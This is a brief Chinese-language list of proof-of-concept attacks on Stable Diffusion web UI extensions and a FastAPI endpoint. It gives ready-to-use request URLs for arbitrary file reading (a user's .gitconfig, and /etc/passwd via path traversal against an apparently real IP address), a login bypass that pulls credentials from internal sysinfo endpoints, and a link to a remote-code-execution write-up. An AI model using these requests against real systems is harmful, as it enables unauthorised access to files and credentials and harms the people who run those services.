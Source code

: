 ## Stable_Diffusion 任意文件读取

## POC

```
https://www.xxxx.com/infinite_image_browsing/file?path=/home/ops/.gitconfig&t=1
```

## Stable_Diffusion RCE漏洞

## POC
参考
https://blog.stevenyu.tw/2023/04/23/stable-diffusion-webui-rce-vulnerabilitiy/

## Stable_Diffusion 登录绕过漏洞
访问下面的API，搜索auth-key，可以找到登录账号和密码。
https://x-x.xxx.com/internal/sysinfo
https://x-x.xxx.com/internal/sysinfo-download

## Fastapi 的任意文件读取漏洞
比如：
http://180.184.76.178/physton_prompt/styles?file=../../../../../../../etc/ssh/../passwd&hash=1691398995933
